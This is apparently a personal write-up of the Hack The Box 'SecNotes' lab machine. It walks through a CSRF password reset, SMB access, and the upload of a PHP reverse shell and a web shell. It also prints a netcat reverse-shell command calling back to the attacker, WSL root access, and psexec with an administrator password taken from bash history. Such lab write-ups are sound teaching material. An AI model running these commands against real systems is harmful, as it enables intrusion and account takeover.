# SecNotes - Medium

Target IP: **10.129.88.50**

## User Flag

Initial scan: ```sudo nmap -sC -sV -p- 10.129.88.50 -v```

Output shows two ports open for http, 80 and 8808, and an smb server on port 445.

```
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-title: Secure Notes - Login
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds Windows 10 Enterprise 17134 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-title: IIS Windows
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
Service Info: Host: SECNOTES; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Anonymous access is denied for the SMB server.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-zs5afo61qx]─[~]
└──╼ [★]$ smbclient -L //10.129.88.50 -N
session setup failed: NT_STATUS_ACCESS_DENIED
```

Let's navigate to port 80.

We are directed to some log in page, and the application itself is unknown.



Trying some different credentials out, we find that the error message tells us if the username doesn't exist. So it's likely that we get separate errors for wrong username and wrong password for a valid username.



There's not much we can do from here except creating an account.

After logging in with the new account, we are lead to the home page. We have the ability to create notes. Additionally, we see a potential user, ```tyler@secnotes.htb```.



Let's just create a note and see what it does.



It just displays it on the home page.



From here, I believe that the most likely vector is to find some credentials that are exposed, perhaps for ```tyler```, and on his home page, look at the notes that are saved to proceed further.

We can confirm from the error message that a ```tyler``` exists.



Further directory enumeration doesn't get us anything useful.

The web server on port 8808 just displays us the default page for IIS. Enumerating doesn't get us anything either.



So the attack vector is within the main web server. Let's look at its functionalities closer.

The change passwords functionality doesn't seem to require the actual current password. This might be interesting.



Capturing the request, we see that password is being used as parameter values. It sends a POST request.



Let's try changing the request to GET.



The password still updated after the request was changed. This is interesting as well.



For the contact us functionality, it seems like on every message we send, it redirects us to the home page with a message confirming that it was sent.



Following this redirecting behavior, what if we put a link in the message? Let's start up an http server on our attack box and send its link.

We actually do get a request! This shows that the website is vulnerable to XSRF.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-zs5afo61qx]─[~]
└──╼ [★]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.88.50 - - [22/Oct/2026 18:31:14] "GET / HTTP/1.1" 200 -
```

We can connect the dots now. Since we can change passwords with a GET request, if we enter that url in the message box, assuming that some other user like ```tyler``` is logged in on the machine, we should be able to change their password.

Let's try it.



After we send the message, we are successful in logging in as ```tyler``` with the new password.



It seems like one of the notes holds SMB credentials.



Let's log in to the server. This seems like the webroot for port 8808.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-zs5afo61qx]─[~]
└──╼ [★]$ smbclient //10.129.88.50/new-site -U 'tyler%92g!mA8BGjOirkL%OG*&'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Aug 19 14:06:14 2018
  ..                                  D        0  Sun Aug 19 14:06:14 2018
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018

		7736063 blocks of size 4096. 3382753 blocks available
```

We could place some file inside of the share then navigate to it to get a shell.

Since the main website was using php, we can try putting a php reverse shell script.

```
smb: \> put php-reverse-shell.php shell.php
putting file php-reverse-shell.php as \shell.php (0.8 kb/s) (average 0.8 kb/s)
smb: \> ls
  .                                   D        0  Thu Oct 22 18:48:27 2026
  ..                                  D        0  Thu Oct 22 18:48:27 2026
  iisstart.htm                        A      696  Thu Jun 21 11:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 11:26:03 2018
  shell.php                           A     5494  Thu Oct 22 18:48:33 2026

		7736063 blocks of size 4096. 3382770 blocks available
```

Navigating to it, we get a connection back, but the script was for Linux.

Trying again, we get a shell, but not as ```tyler```, which I did not expect.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-zs5afo61qx]─[~]
└──╼ [★]$ rlwrap nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.88.50 50352
SOCKET: Shell has connected! PID: 6376
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
iis apppool\newsite
```

Maybe we can put a web shell instead and connect back to us.

We get code execution through the web shell.



We can put nc.exe in the share as well and call it.

```
smb: \> put nc.exe nc.exe
putting file nc.exe as \nc.exe (610.5 kb/s) (average 12.7 kb/s)
```

```
http://10.129.88.50:8808/webshell.php?cmd=nc.exe%2010.10.15.194%204444%20-e%20cmd.exe
```

We get a shell as ```tyler```.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-zs5afo61qx]─[~]
└──╼ [★]$ rlwrap nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.88.50 50809
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\new-site>whoami
whoami
secnotes\tyler
```

We can proceed to get the user flag from here.

## Root Flag

There is an unusual ```.lnk``` file on ```tyler```'s desktop, ```bash.lnk```.

```
C:\Users\tyler\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\Users\tyler\Desktop

08/19/2018  03:51 PM    <DIR>          .
08/19/2018  03:51 PM    <DIR>          ..
06/22/2018  03:09 AM             1,293 bash.lnk
08/02/2021  03:32 AM             1,210 Command Prompt.lnk
04/11/2018  04:34 PM               407 File Explorer.lnk
06/21/2018  05:50 PM             1,417 Microsoft Edge.lnk
06/21/2018  09:17 AM             1,110 Notepad++.lnk
10/22/2026  09:50 AM                34 user.txt
08/19/2018  10:59 AM             2,494 Windows PowerShell.lnk
               7 File(s)          7,965 bytes
               2 Dir(s)  13,854,760,960 bytes free
```

At the root of the drive, there is a zip file for Ubuntu, and also a distros directory.

```
C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\

06/21/2018  03:07 PM    <DIR>          Distros
06/21/2018  06:47 PM    <DIR>          inetpub
06/22/2018  02:09 PM    <DIR>          Microsoft
04/11/2018  04:38 PM    <DIR>          PerfLogs
06/21/2018  08:15 AM    <DIR>          php7
01/26/2021  03:39 AM    <DIR>          Program Files
01/26/2021  03:38 AM    <DIR>          Program Files (x86)
06/21/2018  03:07 PM       201,749,452 Ubuntu.zip
06/21/2018  03:00 PM    <DIR>          Users
01/26/2021  03:38 AM    <DIR>          Windows
               1 File(s)    201,749,452 bytes
               9 Dir(s)  13,854,760,960 bytes free
```

Files for Ubuntu are here.

```
C:\Distros\Ubuntu>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 1E7B-9B76

 Directory of C:\Distros\Ubuntu

06/21/2018  05:59 PM    <DIR>          .
06/21/2018  05:59 PM    <DIR>          ..
07/11/2017  06:10 PM           190,434 AppxBlockMap.xml
07/11/2017  06:10 PM             2,475 AppxManifest.xml
06/21/2018  03:07 PM    <DIR>          AppxMetadata
07/11/2017  06:11 PM            10,554 AppxSignature.p7x
06/21/2018  03:07 PM    <DIR>          Assets
06/21/2018  03:07 PM    <DIR>          images
07/11/2017  06:10 PM       201,254,783 install.tar.gz
07/11/2017  06:10 PM             4,840 resources.pri
06/21/2018  05:51 PM    <DIR>          temp
07/11/2017  06:10 PM           222,208 ubuntu.exe
07/11/2017  06:10 PM               809 [Content_Types].xml
               7 File(s)    201,686,103 bytes
               6 Dir(s)  13,854,760,960 bytes free
```

There must be a executable for bash somewhere on the machine. Let's look for it.

A recursive search locates it.

```
C:\>dir /s /b bash.exe
dir /s /b bash.exe

C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
```

Running the executable, we get root on some sandbox.

```
C:\>C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
C:\Windows\WinSxS\amd64_microsoft-windows-lxss-bash_31bf3856ad364e35_10.0.17134.1_none_251beae725bc7de5\bash.exe
mesg: ttyname failed: Inappropriate ioctl for device
id
uid=0(root) gid=0(root) groups=0(root)
```

Theres nothing much here.

```
root@SECNOTES:~# ls -la
ls -la
total 8
drwx------ 1 root root  512 Jun 22  2018 .
drwxr-xr-x 1 root root  512 Jun 21  2018 ..
---------- 1 root root  398 Jun 22  2018 .bash_history
-rw-r--r-- 1 root root 3112 Jun 22  2018 .bashrc
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
drwxrwxrwx 1 root root  512 Jun 22  2018 filesystem
```

However, reading the history file gets us credentials for ```administrator```.

```
root@SECNOTES:~# cat .bash_history
cat .bash_history
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
mkdir filesystem
mount //127.0.0.1/c$ filesystem/
sudo apt install cifs-utils
mount //127.0.0.1/c$ filesystem/
mount //127.0.0.1/c$ filesystem/ -o user=administrator
cat /proc/filesystems
sudo modprobe cifs
smbclient
apt install smbclient
smbclient
smbclient -U 'administrator%u6!4ZwgwOM#^OBf#Nwnh' \\\\127.0.0.1\\c$
```

We can now authenticate.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-zs5afo61qx]─[~]
└──╼ [★]$ impacket-psexec administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.129.88.50
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.129.88.50.....
[*] Found writable share ADMIN$
[*] Uploading file IBTHMdJi.exe
[*] Opening SVCManager on 10.129.88.50.....
[*] Creating service CLdR on 10.129.88.50.....
[*] Starting service CLdR.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17134.228]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32> whoami
nt authority\system
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
